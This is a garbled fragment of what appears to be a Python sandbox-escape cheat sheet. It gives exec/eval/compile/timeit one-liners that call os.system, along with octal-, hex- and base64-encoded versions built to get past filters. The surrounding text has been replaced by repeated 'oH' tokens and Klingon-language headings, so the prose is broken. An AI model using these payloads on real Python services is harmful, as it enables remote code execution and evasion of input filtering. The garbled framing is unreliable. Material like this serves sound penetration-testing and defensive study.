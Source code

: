 **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH** **'oH
```python
exec("print('RCE'); __import__('os').system('ls')") #Using ";"
exec("print('RCE')\n__import__('os').system('ls')") #Using "\n"
eval("__import__('os').system('ls')") #Eval doesn't allow ";"
eval(compile('print("hello world"); print("heyy")', '<stdin>', 'exec')) #This way eval accept ";"
__import__('timeit').timeit("__import__('os').system('ls')",number=1)
#One liners that allow new lines and tabs
eval(compile('def myFunc():\n\ta="hello word"\n\tprint(a)\nmyFunc()', '<stdin>', 'exec'))
exec(compile('def myFunc():\n\ta="hello word"\n\tprint(a)\nmyFunc()', '<stdin>', 'exec'))
```

```python
#Octal
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
#Hex
exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
#Base64
exec('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='.decode("base64")) #Only python2
exec(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='))
```
### tlhIngan Hol

### vItlhutlh

#### `exec`
